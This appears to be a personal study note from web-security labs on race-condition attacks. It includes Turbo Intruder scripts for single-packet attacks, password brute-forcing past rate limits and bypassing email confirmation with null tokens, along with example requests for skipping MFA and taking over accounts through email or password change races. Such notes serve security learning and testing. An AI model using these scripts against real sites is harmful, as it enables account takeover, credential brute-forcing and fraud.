 # Race Conditions
## Limit overrun race condition
If site blocks multiple usaeg of same request (for example redeeming of gift card more then one time), we can possibly try to enter into "race window" during which site processes request. In such case we can send nosequent request with very small pause between requests or send multiple requests in same time. In such way we can create multiple requests during which first request is proceeded and before server starts to block it.  
With burp we can achieve this adding multiple requests in repeater into a group and sending it in parallel (using request sending options)

## Turbo Intruder race condition
Single-packet attack:
1. Ensure that target supports HTTP/2
2. Set the engine `engine=Engine.BURP2` and `concurrentConnections=1` configuration options for the request engine
3. When queueing your requests, group them by assigning them to a named gate using the `gate` argument for the `engine.queue()` method.
4. To send all of the requests in a given group, open the respective gate with the `engine.openGate()` method.

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

## Bypassing bruteforce rate limit
When we are sending invalid credentials sequently, we can have problem with rate limit (captcha solving or blocking of login attempts).  
We can solve this with race condition and Turbo Intruder, sending many passwords at one time.  
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    passwords = wordlists.clipboard
    
    for password in passwords:
        engine.queue(target.req, password, gate='race1')

    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)

```
Here we are using password list from our clipboard.  

## Bypassing multi-step sequences
With race conditions we could be possibly able to bypass some mechanisms such as MFA, sending request to sensitive data BEFORE MFA is generated and checked.
```
POST /login
GET /admin
```
If we will send this requests quick enough, we could be potentially able to bypass MFA check which must arise right after login request.  

To check race conditions we can send group of requests in sequence (separate connections), then single-packet attack (parallel connections) and observe responses.  

## Multi-endpoint race conditions
We can potentially bypass basket confirmations in online shops if we will by something additionally during basket confirmation. So we have 1 item in basket and during order confirmation we are adding one more item and buying it together with first.  
Always try t oexploit race condition couple of times.  
Also try to send "warming" requests to another endpoints such as /home  
Also we can try to slow down the server sending multiple dummy hard requests to make race window bigger  

## Single-endpoint race condition
We can try to exploit update email or update password functionality with race condition. 
For example we can send request to change our e-mail to something available and in parallel send request to change our e-mail to one that is occupied by another user, cathing it's account. Or we can try to send request to update our password and in parallel send request to change another user's password.  

## Partial construction race conditions
This race condition appears when some objects initialized by server are initialized partially with null values (For example API key for user during registration could be null for small race window)  
In PHP and Ruby we are able to construct requests with null values like this: 
```
GET /api/user/info?user=victim&api-key[]= HTTP/2
```
So as example we can try to create user with unexisting email and skip confirmation stage when sending request to /confirm endpoint with null value
```

def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: phpsessionid=YOUR-SESSION-TOKEN
Content-Length: 0

'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```

## Time-based attacks
If server uses timestamp for encrypting password, we potentially could be able to reset password for two different suers if we send our requests at the same time.  
So if we will send two requests (with different session tokens and csrf) to reset password endpoint, we would have same tokens with soime arbitrary user.  
